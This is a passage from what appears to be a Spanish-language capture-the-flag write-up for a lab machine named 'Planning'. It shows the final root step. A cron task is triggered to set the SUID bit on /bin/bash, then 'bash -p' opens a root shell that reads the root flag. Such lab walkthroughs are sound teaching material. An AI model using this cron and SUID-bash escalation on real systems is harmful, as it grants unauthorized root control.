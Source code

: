 ![image-center](/assets/images/posts/planning-abusing-cron-2.png)
{: .align-center}


## Root Time

Ejecutaremos la tarea ahora haciendo clic en `Run Now` en la tarea que hemos creado

![image-center](/assets/images/posts/planning-abusing-cron-2.png)
{: .align-center}

Al momento que ejecutemos la tarea `cron`, veremos que `bash` se ha vuelto un binario `suid`. Ejecutaremos una `bash` como `root` con el comando `bash -p`

~~~ bash
enzo@planning:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1446024 Mar 31  2024 /bin/bash

enzo@planning:~$ bash -p
bash-5.2# 
~~~

Ya podemos ver la flag del sistema ubicada en el directorio `/root`

~~~ bash
bash-5.2# cat /root/root.txt
99a...
~~~
<br>
Gracias por leer este artículo, espero te haya sido de ayuda. Te dejo la cita del día:

> Experience can only be gained by doing not by thinking or dreaming.
> — Byron Pulsifer
{: .notice--info}
